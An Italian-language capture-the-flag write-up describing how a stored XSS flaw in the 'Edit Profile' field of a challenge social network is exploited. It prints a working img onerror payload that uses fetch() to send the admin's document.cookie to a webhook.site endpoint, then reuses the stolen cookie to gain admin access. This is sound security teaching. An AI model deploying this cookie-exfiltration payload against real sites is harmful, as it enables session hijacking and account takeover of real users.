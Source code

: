 # Writeup: Curious George

## Descrizione 📝
La challenge presenta un nuovo social network chiamato **Curious George** che offre numerose funzionalità, ma nasconde una vulnerabilità XSS nella sezione "Edit Profile". L'utente non admin non dovrebbe poter accedere ad alcune funzionalità, come modificare il profilo di altri, ma il sito espone un parametro (es. `id=7`) che, se manomesso, mostra il messaggio "Hey?! Non sei un admin. Cosa stai cercando di fare?".

L'obiettivo è sfruttare una vulnerabilità XSS per esfiltrare il cookie dell'admin. Per completare la challenge è inoltre richiesto un proof of work, che dura circa 1 minuto; tale operazione può essere automatizzata tramite lo script fornito dalla challenge.

## Sfruttamento 🎯

1. **Identificazione della Vulnerabilità**  
   Analizzando la dashboard e la pagina "Edit Profile", è stato riscontrato che il campo di input non filtra correttamente il codice HTML/JavaScript.  
   Ad esempio, inserendo un payload come:
   ```html
   <script>alert(1)</script>
   ```
   la pagina esegue lo script, confermando la presenza di una vulnerabilità XSS.

2. **Inserimento del Payload XSS**  
   Per esfiltrare il cookie dell'admin, è stato deciso di utilizzare un payload che invia il cookie a un endpoint di Webhook.  
   Il payload inserito nel campo di input della sezione "Edit Profile" era:
   ```html
   <img src="image.png" onerror="fetch('https://webhook.site/820487ad-3d80-4ab5-9c67-9a7912109b16?flag='+document.cookie)">
   ```
   Questo payload sfrutta l'evento `onerror` del tag `<img>`. Quando l'immagine non viene caricata, l'errore genera l'esecuzione del codice JavaScript che esegue un `fetch()` verso il nostro Webhook, allegando il cookie dell'admin alla query string.

3. **Invio del Report all'Admin**  
   Dopo aver inserito il payload nella sezione "Edit Profile", è stato inviato un URL di report all'admin. Quando l'admin ha visitato il link, il payload XSS si è eseguito nel suo browser e il suo cookie è stato esfiltrato tramite il Webhook.

4. **Modifica del Cookie e Accesso come Admin**  
   Una volta ottenuto il cookie dell'admin, è stato possibile sostituirlo con il proprio cookie per ottenere privilegi amministrativi e visualizzare la flag.

## Flag 🏁
```
flag{c00ki3s_4r3_d4Ng3r0uS_Wh3n_Th3y_m33t_XSS}
```

## Lezioni Apprese 📚
1. **XSS Riflesso e Persistente**: L'iniezione di codice nei campi di input può essere sfruttata per esfiltrare dati sensibili, come i cookie, soprattutto se non vengono applicate opportune tecniche di sanitizzazione.
2. **Manipolazione dei Cookie**: La sostituzione del cookie dell'admin con quello esfiltrato permette di bypassare i controlli di accesso.
3. **Utilizzo di Webhook**: Strumenti come Webhook.site sono estremamente utili per catturare e analizzare richieste HTTP e dati esfiltrati.

## Tools Utilizzati 🛠️
- **Browser DevTools**: Per esaminare il codice sorgente della pagina e testare il payload XSS.
- **Burp Suite**: Per intercettare e modificare le richieste HTTP e visualizzare i parametri.
- **Webhook.site**: Per ricevere il cookie esfiltrato dall'esecuzione del payload XSS.

---

*Writeup by Luca Crippa - Last Updated: 2024*
